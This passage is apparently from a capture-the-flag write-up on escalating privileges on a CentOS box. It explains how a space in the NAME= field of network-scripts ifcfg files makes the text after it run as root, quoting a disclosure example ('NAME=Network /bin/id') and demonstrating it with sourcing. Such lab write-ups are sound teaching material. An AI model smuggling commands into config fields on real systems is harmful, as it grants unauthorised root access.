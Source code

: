 ```
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
[guly@networked network-scripts]$ cat ifcfg-guly
cat ifcfg-guly
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=if1
PROXY_METHOD=bypass
BROWSER_ONLY=no
BOOTPROTO=bootp
[guly@networked network-scripts]$ 
```

Despite the error message, the new config is written to "ifcfg-guly" anyway. Because there is no "guly0" device, the initialization is delayed.

## Privilege Escalation

Let's go a quick google search to see if there is a known way to abuse this. A search for "centos network scripts root" finds the following page, with extract below:

{% embed url="https://seclists.org/fulldisclosure/2019/Apr/24" %}

> In my case, the NAME= attributed in these network scripts is not handled correctly. If you have white/blank space in the name the system tries to execute the part after the white/blank space. Which means; everything after the first blank space is executed as root.
>
> For example:
>
> /etc/sysconfig/network-scripts/ifcfg-1337
>
> NAME=Network /bin/id <= Note the blank space
>
> ONBOOT=yes&#x20;
>
> DEVICE=eth0
>
> Yes, any script in that folder is executed by root because of the sourcing technique.

Looking at the above thread, we see a post which confirms this is the expected behaviour, and that basically the sysadmin should not give user's access to edit these network-scripts as root because the scripts themselves run as root because they are sourced when when you try to bring up the interface.

Below is an explanation on the difference between executing a script and sourcing it:

{% embed url="https://www.theunixschool.com/2012/04/what-is-sourcing-file.html" %}

To demonstrate how this works, we can simply define a variable, followed by a space followed by a command, and the command will be executed:

```
[guly@networked network-scripts]$ x=test id
x=test id
uid=1000(guly) gid=1000(guly) groups=1000(guly)

```
